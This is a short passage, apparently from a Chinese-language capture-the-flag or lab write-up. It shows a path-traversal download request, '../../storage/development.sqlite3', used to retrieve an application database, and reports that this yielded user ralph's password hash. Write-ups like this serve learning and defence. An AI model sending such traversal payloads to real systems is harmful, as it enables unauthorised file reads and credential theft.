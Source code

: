 ![](./images/image-79.png)

将其下载下来

```
GET /download?filename=../../storage/development.sqlite3 
```

得到了`ralph`的密码`hash`

![](./images/image-80.png)
